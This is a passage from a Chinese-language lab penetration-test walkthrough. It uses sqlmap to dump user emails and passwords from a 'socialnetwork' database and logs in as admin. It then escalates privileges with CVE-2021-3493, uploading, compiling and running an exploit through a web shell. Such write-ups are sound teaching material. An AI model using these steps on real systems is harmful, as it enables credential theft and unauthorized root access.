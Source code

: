 ![image-20211118151752362](https://byesec-blog-img.oss-cn-beijing.aliyuncs.com/uPic/image-20211118151752362.png)

```
sqlmap -r test -p query -D socialnetwork -T users --columns
```

![image-20211118151941038](https://byesec-blog-img.oss-cn-beijing.aliyuncs.com/uPic/image-20211118151941038.png)

```
sqlmap -r test -p query -D socialnetwork -T users -C user_email,user_password --dump
```

![image-20211118152315735](https://byesec-blog-img.oss-cn-beijing.aliyuncs.com/uPic/image-20211118152315735.png)

获得了admin账号的邮箱地址和密码，使用admin登录

![image-20211118152420558](https://byesec-blog-img.oss-cn-beijing.aliyuncs.com/uPic/image-20211118152420558.png)

![image-20211118152513424](https://byesec-blog-img.oss-cn-beijing.aliyuncs.com/uPic/image-20211118152513424.png)

但是在admin账号内也未发现可利用的信息。



## 三、提权

### CVE-2021-3493本地提权（时间提权术）

再次回到蚁剑shell中

![image-20211118153207728](https://byesec-blog-img.oss-cn-beijing.aliyuncs.com/uPic/image-20211118153207728.png)

目标内核4.15.0-38 操作系统Ubuntu版本为18.04.1 现在较新的版本18.04.5

查询发现了较新的通用公共漏洞--

![image-20211118154013454](https://byesec-blog-img.oss-cn-beijing.aliyuncs.com/uPic/image-20211118154013454.png)

思路：上传至目标靶机上，使用gcc编译后，本地执行

使用蚁剑文件管理上传到目标靶机上

![image-20211118155210947](https://byesec-blog-img.oss-cn-beijing.aliyuncs.com/uPic/image-20211118155210947.png)

使用gcc编译后才可执行

```
gcc -o exp exploit.c
```

```
chmod +x exp
```

```
./exp
```
